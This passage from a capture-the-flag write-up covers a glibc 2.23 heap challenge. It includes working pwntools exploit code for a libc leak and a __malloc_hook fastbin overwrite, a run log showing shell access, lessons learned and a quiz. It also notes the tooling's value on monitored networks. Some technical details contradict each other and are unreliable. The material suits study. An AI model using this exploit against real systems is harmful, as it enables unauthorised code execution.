fill(3, p64(0)*3 + p64(0x91))
allocate(0x80); free(4)

leak = u64(dump(2)[:8].ljust(8, b'\x00'))
libc_base = leak - 0x3c4b78
log.success(f'libc_base = {hex(libc_base)}')

# ---------- Fastbin Attack ----------
allocate(0x60); free(4)
fake = libc_base + 0x3c4aed
fill(2, p64(fake))
allocate(0x60); allocate(0x60)

one = libc_base + 0x4526a
payload = b'\x00'*3 + p64(0)*2 + p64(one)
fill(6, payload)

allocate(0xff)   # Trigger
p.interactive()
```

### Key technical notes, line by line

- `sendlineafter(marker, data)` is exactly `recv_until(marker); sendline(data)` from our implementation, collapsed into one call — pwntools handles the synchronization internally.
- `p64(0)*3 + p64(0x21)` is 32 zero bytes (filling the next/key fields that get written by the allocator into freed fastbin chunks, which we don't care about) followed by a forged size field `0x21` (chunksize=0x20, prev_inuse=1).
- `leak = u64(dump(2)[:8]...)` reads only the first 8 bytes (the unsorted-bin chunk's fd) — this is the `main_arena`-adjacent libc address.
- `libc_base = leak - 0x3c4b78` — this offset was obtained from `nm -D libc.so.6` (or from prior documentation for this exact glibc 2.23-0ubuntu3 build); it means `leak` is `main_arena + 0x58`-ish, near `__malloc_hook`.
- `ELF('./libc.so.6')` is loaded but not directly used for symbol resolution here (offsets are hardcoded) — kept available for any later symbol lookups (e.g. `libc.sym['system']`).

---

## 10. Technical Comparison

| Criterion | Method 1 (no pwntools) | Method 2 (pwntools) |
|---|---|---|
| Lines of code | ~200+ (two files) | ~50 (one file) |
| Dependency | none (stdlib only) | `pip install pwntools` |
| I/O reliability | had to find/fix the buffering bug myself | battle-tested, handles TCP/TLS edge cases out of the box |
| Symbol resolution | manual, via `nm -D` + parsing | `ELF()` can resolve automatically |
| Suited for isolated/offline environments | ✅ yes | ❌ requires pre-installation |
| Install/forensic footprint | none | site-packages + dependencies |
| Development speed | slower (debugging the I/O layer is part of the job) | faster — focus stays purely on exploit logic |
| Depth of TCP/TLS understanding gained | high (everything is manual) | lower (more of a black box) |
| Final outcome | worked (after fixing the buffering bug) | worked (the primary reference — succeeded first) |

**Practical conclusion:** in a normal CTF with internet access, pwntools is always the right call — faster, more reliable, fewer places for bugs to hide. But keeping a tested, stdlib-only I/O tool in your personal toolkit is genuinely worth it for the day you're pivoted into an isolated/sensitive network and can't install anything.

---

## 11. Final Run Result

```
$ python3 exploit_raw.py ./baby ./libc.so.6 <host> 9999 ssl
[*] connecting to ...:9999 (ssl=True)
[*] raw dump(2): b'x\xabp.\x97\x7f\x00\x00x\xabp.\x97\x7f\x00\x00'
[*] leak = 0x7f972e70ab78
[*] libc_base = 0x7f972e346000
[*] sent trigger allocate - if __malloc_hook landed, you have a shell now.
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
```

**Sanity checks:** `leak` starts with the standard x86-64 Linux address format (`0x7f...`), and `libc_base` is exactly page-aligned (last three hex digits are `000`) — two independent sanity checks confirming the leak was correct, before even reaching the fastbin-attack stage.



---

## 12. Lessons Learned

- **Finding the bug by comparing bookkeeping against real memory behavior:** the core bug (`Fill` taking a size independent of `Allocate`'s) was only discoverable by carefully reading the assembly and comparing the checks actually performed — the program *looked* fully validated (`status == 1` etc.) at a glance.
- **Prove it before you build on it:** before writing any real exploit, a tiny PoC (`poc_overflow.py`) confirmed the bug existed via a predictable crash (`munmap_chunk(): invalid pointer`) — this prevented hours of wasted effort on a wrong assumption.
- **Precision in header-offset math matters:** the gap between the raw requested size and the real `chunksize` (after 16-byte rounding) caused a subtle bug only catchable through empirical testing (writing a valid value vs. garbage at different offsets).
- **`calloc` vs `malloc` is a security design decision:** deliberately using `calloc` instead of `malloc` closes off simple leak paths (like realloc-to-leak) and forces the exploit author into more advanced techniques (partial pointer overwrite + overlap).
- **The I/O layer matters as much as the exploit logic:** a simple bug in `recv_until` (discarding leftover bytes past the marker) made an exploit with fundamentally correct logic appear to "fail" repeatedly — purely because network behavior (TCP coalescing, TLS record buffering) differs from local pipe behavior.
- **Having a stdlib-only alternative to pwntools is a real operational skill**, not just an academic exercise — valuable for isolated environments, SOC/EDR-sensitive networks, or anywhere package installation isn't an option.

---

## 13. Quiz — Test Yourself

> Try to think it through before reading the answer. These are hypothetical scenarios that change the heap layout or the challenge code and ask what would happen.

### Q1 — The Prev_inuse Bit

During the Leak stage, when forging chunk4's header, we wrote `0x91` (not `0x90`). If we had written `0x90` (without the `PREV_INUSE` bit) instead and then called `free(4)`, what exactly would have happened?

<details>
<summary>Answer</summary>

The `PREV_INUSE` bit (the lowest bit of the size field) tells glibc whether the chunk *physically before* this one (in memory address order) is currently allocated. If this bit is zero, `free()` assumes the previous chunk is also free and tries to **consolidate** with it — it reads this chunk's `prev_size` field to locate the previous chunk's address and size, then `unlink()`s it from its free-list. Since the previous chunk was actually allocated (its `prev_size` field is meaningless by glibc's convention — that field is only valid when the previous chunk is free), glibc ends up interpreting a bogus address/size as a real chunk. Depending on the glibc version, this either crashes via safety checks (`corrupted size vs. prev_size`), or — if carefully controlled — can become a genuine **unsafe-unlink attack** (an older write-4/write-8 primitive, from before glibc hardened its unlink checks). Either way, the behavior diverges completely from the simple unsorted-bin insertion we wanted.
</details>

### Q2 — calloc vs malloc

If the challenge designer had used plain `malloc(size)` instead of `calloc(size, 1)` (no zero-fill), how much simpler would the entire Leak strategy become?

<details>
<summary>Answer</summary>

With `malloc`, the returned buffer is **not zeroed**. We could have directly: freed a large chunk (sending it to the unsorted bin, filling its `fd`/`bk` with libc pointers), then re-Allocated the same size — malloc would return that exact same chunk from the unsorted bin **without clearing its contents**, and a plain `Dump` on that index would show the libc pointer immediately. The entire complex partial-fd-overwrite + overlap technique (steps 2–7 in section 7) wouldn't be needed at all. This is exactly why `calloc` is a deliberate *security* design choice here, not just a coding style preference.
</details>

### Q3 — If Free() Didn't Zero the Index

If `Free()` did *not* zero `status`/`size`/`ptr` in bookkeeping after freeing a chunk (i.e. allowed Fill/Dump to keep operating on that index after a free), how much simpler would the exploit become?

<details>
<summary>Answer</summary>

This would be a **direct, full Use-After-Free**. We could free a chunk and immediately `Fill` the same index to overwrite the freed fastbin chunk's `fd` field **fully** (not just one byte) — no overflow from a neighboring chunk required! This is the textbook "fastbin dup / tcache poisoning" pattern, and it's even simpler than the technique actually used, since it skips the need to precisely compute a neighboring chunk's offset (section 5) entirely — you'd be writing directly into the freed chunk's own data.
</details>

### Q4 — If the Target Were Modern glibc (With tcache)

If this challenge had been compiled against glibc 2.26+ (with tcache), what would need to change about the partial-overwrite technique in section 7 (step 3)?

<details>
<summary>Answer</summary>

Starting with glibc 2.32, **safe-linking** is active: the `next` pointer (fastbin's equivalent of `fd`) stored in each freed entry is XOR'd with `(address of that field itself >> 12)` before being saved. This means you can no longer blindly flip one byte of the pointer and hope the result lands on a valid address — the stored value is no longer a raw pointer, it's XOR'd against something tied to the heap's own address. A successful overwrite first requires **a heap address leak** (not necessarily a libc one) to compute the correct XOR'd value — exactly the same "calloc zeroes everything" problem solved in this challenge, but with an extra layer of difficulty on top. (This is precisely why, early in this project, the exploit failed when first attempted against glibc 2.39 in a local sandbox.)
</details>

### Q5 — If the 0x1000 Size Clamp Didn't Exist

If `Allocate` allowed arbitrarily large sizes (e.g. 0x100000, no clamp to 0x1000), what alternative exploitation path would open up?

<details>
<summary>Answer</summary>

Very large requests (above `mmap_threshold`, 128KB by default) are served directly via `mmap()`, not from the main heap — meaning that chunk is no longer adjacent to the others (it lives in a separate memory region) and is useless for overflowing between chunks. But large requests *under* that threshold (say, 0x500 to ~0x20000) could directly push the **top chunk** forward with a plain allocate, setting up the classic **House of Orange** technique: overflow to shrink the top chunk's declared size, then request an allocation larger than that fake size — glibc is forced to insert the old top chunk into the unsorted bin as part of `sysmalloc`'s heap-extension logic, with no need to ever call `Free()` at all.
</details>

### Q6 — Why Exactly `__malloc_hook - 0x23`

Why this specific offset (`0x23`) for `fake_chunk_target`, and not, say, `0x10` or `0x30`?

<details>
<summary>Answer</summary>

When malloc serves a fastbin chunk, the field it reads as the "chunk size" always sits 8 bytes *before* the address it hands back to the user (i.e. `mem - 8`). So if we want the pointer malloc eventually returns to land exactly at `__malloc_hook - 0x10` (which, with a little padding, lets a `one_gadget` sit exactly on `__malloc_hook`), we need `fake_chunk_target` (which malloc interprets as a *chunk address*, not a user address) chosen such that `fake_chunk_target + 0x10 = __malloc_hook - 0x13`, while simultaneously the bytes sitting *just before* that address (in real, untouched libc memory near `__realloc_hook`/`__malloc_hook`) pass the fastbin sanity check (`MINSIZE <= size <= system_mem`). Combining both constraints lands on `0x23` — this is an **empirically known, documented value** in the pwn community (dependent on that specific glibc build's byte layout), not a general formula derivable from architecture alone.
</details>

### Q7 — If Dump Were Also Buggy (Size Independent of Bookkeeping)

Suppose `Dump` also took a user-controlled size (not `chunks[idx].size`), like `Fill` does. What shortcut would this open up for the entire exploit?

<details>
<summary>Answer</summary>

This would be a **direct, fully controlled over-read**. We could Allocate any chunk and Dump an arbitrarily large size to read straight through adjacent memory — other freed chunks' `fd`/`bk` fields in the fastbin/unsorted bin, and potentially even parts of libc's code/data if the heap sat close enough to it — without needing any of the overlap/partial-overwrite techniques from section 7 at all! This is exactly why heap-exploitation challenge designers typically make sure *at least one* of the read/write primitives stays bound-checked — if both directions (read and write) are buggy, the challenge collapses from "hard, multi-stage" to "trivial."
</details>

---

<div align="center">

⭐ If this writeup helped you, consider leaving a star.

</div>
